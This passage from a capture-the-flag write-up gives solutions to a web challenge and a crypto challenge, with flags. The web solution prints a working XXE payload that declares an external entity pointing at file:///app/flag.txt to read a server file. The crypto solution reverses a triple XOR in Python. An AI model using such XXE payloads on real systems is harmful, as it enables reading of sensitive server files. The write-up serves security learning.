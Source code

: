 **Flag: KibSec{arent_static_sites_supposed_to_be_secure??}**


## XML2JSON
### Materials
hint: "Flag je u /app/flag.txt"<br>
link: http://chal.kibsecctf.xfer.hr:8005<br>

### Solution
Tihs task focuses on XXE attack. Since we know where the flag is. It is simple to extract it. We craft an XML payload that will get the flag file, store it in a variable and display it:<br>
`<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/flag.txt"> ]>
<part><flag>&xxe;</flag></part>`<br>

Flag: **KibSec{xD_xxe_216cedc1793e}**

# CRYPTO
## XOR^3
### Materials
hint: "Dobiveni key je potrebno ubaciti u flag format: KibSec{<k3>}"<br>
file: source.py

### Solution
Simple boolean logic and you reverse the calculation using xor. That's all!<br>
`from Crypto.Util.strxor import strxor`<br>

`# k3 = ?`<br>
`# xor_result = strxor(strxor(strxor(message, k1), k2), k3)`<br>
`# print(xor_result.hex()) -> 0c071b2c00081d371c3c3c36330f4411`<br>

`k1 = b'this_is_one_key1'`<br>
`k2 = b'this_another_one'`<br>
`message = b'xor_is_so_cool!!'`<br>

`mk1 = strxor(message, k1)`<br>
`mk2 = strxor(mk1, k2)`<br>
`xor_res = bytes.fromhex("0c071b2c00081d371c3c3c36330f4411")`<br>
`k3 = strxor(xor_res, mk2)`<br>
`print(k3)`

Flag: **KibSec{thisis_the_third}**

## Twin Prime Conjecture
### Materials
hint: "Postoji li beskonačno mnogo parova prostih brojeva čija je apsolutna razlika 2?"<br>
file: source.py

